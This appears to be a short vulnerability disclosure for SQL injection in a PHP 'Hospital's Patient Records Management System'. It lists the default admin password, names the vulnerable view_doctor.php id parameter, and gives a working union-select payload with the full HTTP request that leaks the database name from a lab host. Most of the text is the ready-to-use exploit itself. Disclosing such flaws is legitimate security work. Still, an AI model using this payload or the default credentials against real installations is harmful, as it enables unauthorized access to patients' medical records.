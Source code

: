 # Hospital's Patient Records Management System v1.0 by oretnom23 has SQL injection

The password for the backend login account is: admin/admin123

vendors: https://www.sourcecodester.com/php/15116/hospitals-patient-records-management-system-php-free-source-code.html

Vulnerability File: /hprms/admin/doctors/view_doctor.php?id=

Vulnerability location: /hprms/admin/doctors/view_doctor.php?id=, id

Current database name: hprms_db ,length is 8

[+] Payload: /hprms/admin/doctors/view_doctor.php?id=-1%27%20union%20select%201,database(),3,4,5,6,7,8--+ // Leak place ---> id

```sql
GET /hprms/admin/doctors/view_doctor.php?id=-1%27%20union%20select%201,database(),3,4,5,6,7,8--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=7g6mvmuq5m1o1cvqrhprll4jr1
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/171407439-c9f48da8-6468-4f68-bdf5-b3787563f8b6.png)

![image](https://user-images.githubusercontent.com/54017627/171407469-f577ed7d-5b45-4644-8f95-4a75ddb121e0.png)
